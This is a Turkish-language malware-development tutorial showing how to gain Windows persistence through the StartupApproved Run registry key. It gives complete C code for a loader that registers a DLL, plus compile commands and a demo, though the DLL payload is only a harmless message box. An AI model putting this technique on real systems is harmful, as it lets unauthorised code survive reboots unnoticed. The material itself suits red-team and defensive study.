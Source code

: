 \newpage
\subsection{90. kötü amaçlı yazılım geliştirme: kalıcılık - bölüm 24. StartupApproved. Basit C örneği.}

﷽

![pers](./images/117/2024-03-15_01-04.png){width="80%"}    

Bu gönderi, kötü amaçlı yazılımlarda kalıcılık sağlamak için kullanılabilecek bir başka ilginç yöntem olan **StartupApproved** Küyük Defteri anahtarına dayanmaktadır.    

### StartupApproved

Kalıcılık konusundaki bu serinin ilk gönderisinde, en popüler ve klasik yöntemlerden biri olan [Registry Run anahtarları](https://cocomelonc.github.io/tutorial/2022/04/20/malware-pers-1.html) üzerinden kalıcılık sağlama tekniğini ele alışmıştım.      

Ancak daha az bilinen ve "startup" sürecinde (örneğin, Windows Explorer tarafından kontrol edilen `Run` ve `RunOnce` anahtarları, Startup klasörü vb.) kullanılan bir diğer Küyük Defteri kaydı vardır. `userinit.exe` tamamlandıktan sonra aşağıdaki Küyük Defteri konumunda bulunur:    

```bash
HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\StartupApproved\Run
```

Görünüyor ki, bu anahtar **Windows Görev Yöneticisi'nin** `Startup` sekmesi aracılığıyla girişlerin etkinleştirildiği veya devre dışı bırakıldığında dolmaktadır:     

![pers](./images/117/2024-03-15_00-47.png){width="80%"}    

Güzel haber şu ki, bu Küyük Defteri yolunu kalıcılık için kullanabiliriz.     

### pratik örnek

Öncelikle, aşağıdaki komutu kullanarak Küyük Defteri anahtarlarını kontrol edin:    

```powershell
reg query 
"HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\StartupApproved"
 /s
```

![pers](./images/117/2024-03-14_23-57_1.png){width="80%"}    

Bir sonraki adımda, her zamanki gibi, "kötü" uygulamamızı oluşturalım (`hack.c`):     

```cpp
/*
hack.c
basit DLL messagebox
yazar: @cocomelonc
https://cocomelonc.github.io/tutorial/2021/09/20/malware-injection-2.html
*/

#include <windows.h>

BOOL APIENTRY DllMain(HMODULE hModule,  DWORD  nReason, LPVOID lpReserved) {
  switch (nReason) {
  case DLL_PROCESS_ATTACH:
    MessageBox(
      NULL,
      "Meow-meow!",
      "=^..^=",
      MB_OK
    );
    break;
  case DLL_PROCESS_DETACH:
    break;
  case DLL_THREAD_ATTACH:
    break;
  case DLL_THREAD_DETACH:
    break;
  }
  return TRUE;
}
```

Her zamanki gibi, sadece `meow-meow` mesaj kutusu.      

Ardından, `HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\StartupApproved` kaydını değiştiriyoruz (`pers.c`):     

```cpp
/*
pers.c
Windows kalıcılık
StartupApproved aracılığıyla
yazar: @cocomelonc
https://cocomelonc.github.io/malware/2024/03/12/malware-pers-24.html
*/
#include <windows.h>
#include <stdio.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  BYTE data[] = {0x02, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 
  0x00, 0x00};

  const char* path = 
  "Software\\Microsoft\\Windows\\CurrentVersion\\Explorer\\
  StartupApproved\\Run";
  const char* evil = "Z:\\2024-03-12-malware-pers-24\\hack.dll";

  LONG res = RegOpenKeyEx(HKEY_CURRENT_USER, (LPCSTR) path, 0, KEY_WRITE, 
  &hkey);
  printf (res != ERROR_SUCCESS ? "Küyük Defteri anahtarı açılamadı :(" : 
  "Küyük Defteri anahtarı başarıyla açıldı :)");

  res = RegSetValueEx(hkey, (LPCSTR)evil, 0, REG_BINARY, data, sizeof(data));
  printf(res != ERROR_SUCCESS ? "Küyük Defteri değeri ayarlanamadı :(" : 
  "Küyük Defteri değeri başarıyla ayarlandı :)");

  // Küyük Defteri anahtarını kapat
  RegCloseKey(hkey);

  return 0;
}
```

Görebildiğiniz gibi, Proof of Concept (PoC) mantığı oldukça basittir - Küyük Defteri kaydının değerini `0x02 0x00...` ikili (binary) değerine ayarlıyoruz.      

### demo

Haydi her şeyi adım adım inceleyelim. Öncelikle, "kötü amaçlı yazılım" DLL dosyamızı derleyelim:      

```bash
x86_64-w64-mingw32-g++ -shared -o hack.dll hack.c -fpermissive
```

![pers](./images/117/2024-03-14_21-50.png){width="80%"}    

Ardından, Proof of Concept (PoC) kodumuzu derleyelim:     

```bash
x86_64-w64-mingw32-g++ -O2 pers.c -o pers.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections \
-Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![pers](./images/117/2024-03-14_21-51.png){width="80%"}    

Son olarak, bunu hedef sistemde çalıştıralım. Benim durumumda, `Windows 10 x64 v1903` VM görünümü şu şekilde oldu:     

```powershell
.\pers.exe
```

![pers](./images/117/2024-03-15_00-46.png){width="80%"}    

Ayrıca, Küyük Defteri kaydını tekrar kontrol ettim:     

```powershell
reg query 
"HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\StartupApproved" 
/s
```

![pers](./images/117/2024-03-15_00-46_1.png){width="80%"}    

Ardından, oturumu kapatıp tekrar girdim:     

![pers](./images/117/2024-03-15_00-50.png){width="80%"}    

![pers](./images/117/2024-03-15_00-51.png){width="80%"}    

Ancak beklendiği gibi çalışmadı...    

Bu nedenle, girdinin adını güncelledim:     

![pers](./images/117/2024-03-15_00-54.png){width="80%"}    

Tekrar oturumu kapatıp açtım, biraz bekledim... ve mükemmel çalıştı!    

![pers](./images/117/2024-03-15_01-03.png){width="80%"}    

![pers](./images/117/2024-03-15_01-04.png){width="80%"}    

Bu nedenle betik içerisinde bir satırı güncelledim:    

```cpp
const char* evil = "C:\\temp\\hack.dll";
```

Ancak bir uyarı yapmalıyım. Test ettiğim bazı durumlarda, bu yöntem Skype gibi programların otomatik olarak başlatılmasına neden oldu:     

![pers](./images/117/2024-03-14_23-56.png){width="80%"}    

![pers](./images/117/2024-03-14_23-57.png){width="80%"}    

Görebildiğiniz gibi, her şey beklendiği gibi mükemmel çalıştı! =^..^= :)    

Bu teknik, [APT28](https://attack.mitre.org/groups/G0007/), [APT29](https://attack.mitre.org/groups/G0016/), [Kimsuky](https://attack.mitre.org/groups/G0094/) ve [APT33](https://attack.mitre.org/groups/G0064/) gibi APT grupları tarafından aktif olarak kullanılmaktadır. Gerçekte, bu yöntem kurbanları kandırmak için son derece kullanışlı olduğundan yaygın olarak tercih edilmektedir.     

Umarım bu gönderi, mavi takım üyelerinin bu teknik hakkında farkındalığını artırır ve kırmızı takım üyelerinin cephaneliğine bir silah ekler.      

[ATT&CK MITRE: T1547.001](https://attack.mitre.org/techniques/T1547/001/)     
[Malware persistence: part 1](https://cocomelonc.github.io/tutorial/2022/04/20/malware-pers-1.html)       
[APT28](https://attack.mitre.org/groups/G0007/)    
[APT29](https://attack.mitre.org/groups/G0016/)     
[Kimsuky](https://attack.mitre.org/groups/G0094/)    
[APT33](https://attack.mitre.org/groups/G0064/)     
[github'taki kaynak kod](https://github.com/cocomelonc/meow/tree/master/2024-03-12-malware-pers-24)     
